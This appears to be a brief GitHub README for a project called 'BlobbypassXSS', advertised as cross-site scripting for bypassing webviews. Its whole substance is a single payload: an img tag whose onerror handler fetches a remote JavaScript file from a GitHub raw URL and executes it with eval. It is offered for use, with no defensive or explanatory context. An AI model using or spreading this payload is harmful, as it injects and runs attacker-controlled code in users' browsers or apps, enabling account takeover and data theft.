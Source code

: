 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/BIobby-Boi/BlobbypassXSS/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
